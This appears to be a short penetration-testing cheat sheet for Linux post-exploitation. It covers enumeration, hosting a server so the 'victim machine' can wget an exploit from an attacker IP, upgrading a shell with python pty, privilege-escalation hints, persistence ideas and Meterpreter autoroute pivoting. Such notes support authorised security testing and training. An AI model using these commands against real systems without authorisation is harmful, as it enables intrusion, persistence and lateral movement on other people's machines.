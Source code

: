 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
    
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
         <hostshare>/Tools/Exploit/Discovery
          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l

   
## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
## Exploits

    searchsploit <linux kernel version>
   
    searchsploit <linux version>

## Upgrading basic shell to terminal 

    python -c 'import pty;pty.spawn("/bin/bash")';
    
    
## Privilege Escalation

[Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

Check /etc/passwd for user/ gorup ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start



   
 
 ## Maintain persistence

  - Add user
  

  - Metasploit


  - Set a scheduled task
  
  
## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
# Find more

  Metasploit
  
    /post/linux/


